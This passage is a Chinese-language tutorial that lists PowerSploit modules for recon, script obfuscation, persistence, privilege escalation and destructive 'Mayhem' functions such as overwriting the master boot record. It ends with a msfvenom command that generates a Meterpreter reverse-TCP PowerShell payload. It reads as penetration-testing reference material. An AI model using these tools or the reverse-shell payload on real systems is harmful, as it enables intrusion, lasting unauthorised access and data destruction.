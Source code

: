 #### 四、Recon(信息侦察)   #这个文件夹主要是以目标主机为跳板进行内网主机侦察

```
1. Invoke-Portscan.ps1   端口扫描
2. Get-HttpStatus.ps1      返回指定路径的HTTP状态代码和完整URL，并附带字典文件
3. Invoke-ReverseDnsLookup.ps1  扫描DNS PTR记录的IP地址范围
4. PowerView.ps1       PowerView是一系列执行网络和Windows域枚举和利用的功能
5.Get-ComputerDetails   获得登录信息
```



#### 五、ScriptModification(脚本修改)

```
1. Out-EncodedCommand.ps1    将脚本或代码块编码，并为PowerShell有效载荷脚本生成命令行输出
2. Out-EncryptedScript.ps1   加密文本文件/脚本
3. Out-CompressedDll.ps1   压缩，Base-64编码，并输出生成的代码，以将受管理的DLL加载到内存中
4. Remove-Comments.ps1       从脚本中删除注释和多余的空白
```



#### 六、Persistence(权限维持)

```
1. New-UserPersistenceOption  为添加持久性函数配置用户级持久性选项。
2. New-ElevatedPersistenceOption   为添加持久性函数配置提升的持久性选项。
3. Add-Persistence    向脚本添加持久性功能
4. Install-SSP        安装安全支持提供程序（ssp）dll
5. Get-SecurityPackages
```

#### 七、Privesc(提权)

```
PowerUP: 共同特权升级检查的信息交换所，以及一些武器化载体
Get-System
```

#### 八、Mayhem

```
Set-MasterBootRecord   选择的消息覆写主引导记录
Set-CriticalProcess  退出powershell时使系统蓝屏
```



### PowerSploit使用

上传powersploit到服务器



生成powershell脚本

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.169 LPORT=10875 -f powershell -o shell.txt
```
